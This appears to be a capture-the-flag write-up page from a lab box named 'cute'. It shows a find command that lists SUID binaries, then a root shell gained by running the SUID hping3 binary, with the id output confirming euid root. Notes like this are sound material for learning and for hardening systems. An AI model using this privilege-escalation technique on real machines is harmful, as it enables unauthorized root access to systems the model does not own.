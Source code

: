 ```yaml
---
layout: default
title: hping3
parent: SUID
nav_order: 2
---
```


# hping3

---

## SUID Permissions

```bash
www-data@cute:/$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/mount
/usr/sbin/hping3
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device

```

## Exploit hping3 SUID

![suid](../../../../assets/images/ctfs/proving_grounds/bbscute/suid.png)

Simply executing the _hping3_ binary gives us a root shell.

```bash
www-data@cute:/$ /usr/sbin/hping3
hping3> id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

```
